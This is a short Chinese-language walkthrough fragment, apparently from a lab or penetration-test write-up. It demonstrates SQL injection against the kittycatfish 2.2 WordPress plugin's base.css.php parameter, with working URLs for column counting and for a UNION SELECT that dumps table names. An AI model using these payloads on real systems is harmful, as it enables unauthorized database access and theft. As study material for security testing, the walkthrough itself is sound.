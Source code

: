 猜字段：

```bash
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16%20order%20by%203--%20-
```

![Alt text](./1512116084454.png)

报错为3，即字段是`2`。

知道字段之后，利用联合查询。

```bash
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,%28SELECT%20GROUP_CONCAT%28table_name%29%20FROM%20information_schema.tables%20WHERE%20table_schema=database%28%29%20GROUP%20BY%20table_name%20LIMIT%200,1%29
```
